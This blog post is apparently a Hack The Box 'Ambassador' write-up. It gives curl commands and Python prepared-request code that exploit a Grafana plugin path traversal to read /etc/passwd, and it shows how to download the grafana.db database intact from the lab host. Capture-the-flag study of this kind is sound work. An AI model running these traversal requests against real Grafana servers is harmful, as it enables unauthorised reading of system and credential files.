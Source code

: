+++
author = "Frenchie"
title = "Ambassador HTB"
date = "2023-01-29"
description = "Ambassador HTB"
tags = [
    "Gaming",
    "Hacking",
]
showthedate = false
+++

While doing manual LFI at grafana endpoint, I tried to exfill sqlite3 db from /var/lib/grafana/grafana.db

<!--more-->

The initial code:
```python
if r.status_code == 200:
    print(r.text)
```

Using r.text from requests library caused sqlite3 db became corrupted.
Need to use proper method.
```python
if r.status_code == 200:
    with open("grafana-python.db", "wb") as file:
        file.write(r.content)
```

Use requests.content instead of requests.text for bytes-type data.
[Docs](https://requests.readthedocs.io/en/latest/user/quickstart/#binary-response-content)

---

For sending GET requests without url normalization, use curl with --path-as-is

```bash
curl --path-as-is http://10.10.11.183:3000/public/plugins/stat/../../../../../../../../etc/passwd -x 127.0.0.1:8080
```

With requests module in python3, using requests.get will not work. Need to use prepared requests.
[Docs](https://requests.readthedocs.io/en/latest/user/advanced/#prepared-requests)

```python
import requests

url = 'http://10.10.11.183:3000/public/plugins/stat/../../../../../../../../etc/passwd'
proxies = {"http": "127.0.0.1:8080"}
s = requests.Session()
req = requests.Request(method='GET', url=url)
prep = req.prepare()
prep.url = url
r = s.send(prep, verify=False, timeout=3)
# r = s.send(prep, verify=False, timeout=3, proxies=proxies)  # WILL NOT WORK WITH PROXIES
print(r.text)
```

> CANNOT using proxies in prepared requests. The url will get normalized!

---

This is working in curl:
```bash
curl 10.10.11.183:3000/public/plugins/stat/../../../../../../../../etc/passwd --path-as-is
```

in Python3, without protocol scheme (http/https) requests will error: No connection adapters were found.

> Without the http:// part, requests has no idea how to connect to the remote server.
>
>Note that the protocol scheme must be all lowercase; if your URL starts with HTTP:// for example, it won’t find the http:// connection adapter either.
> — <cite>[source](https://stackoverflow.com/questions/15115328/python-requests-no-connection-adapters)</cite>